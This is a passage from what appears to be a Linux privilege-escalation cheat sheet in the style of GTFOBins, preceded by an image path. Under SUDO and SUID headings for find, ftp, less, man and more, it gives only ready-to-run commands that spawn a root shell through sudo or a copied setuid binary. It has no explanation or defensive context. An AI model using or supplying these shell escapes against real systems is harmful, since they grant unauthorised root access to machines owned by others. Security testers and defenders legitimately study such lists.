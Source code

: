 ### SUDO
```
sudo find . -exec /bin/sh \; -quit
```
### SUID
```
sudo sh -c 'cp $(which find) .; chmod +s ./find'

./find . -exec /bin/sh -p \; -quit
```
# FTP
### SUDO
```
sudo ftp
!/bin/sh
```
# LESS
### SUDO
```
sudo less /etc/profile
!/bin/sh
```
### SUID
```
sudo sh -c 'cp $(which less) .; chmod +s ./less'

./less file_to_read
```
# MAN
### SUDO
```
sudo man man
!/bin/sh
```
# MORE
### SUDO
```
TERM= sudo -E more /etc/profile
!/bin/sh
```
### SUID
```
sudo sh -c 'cp $(which more) .; chmod +s ./more'

./more file_to_read
```
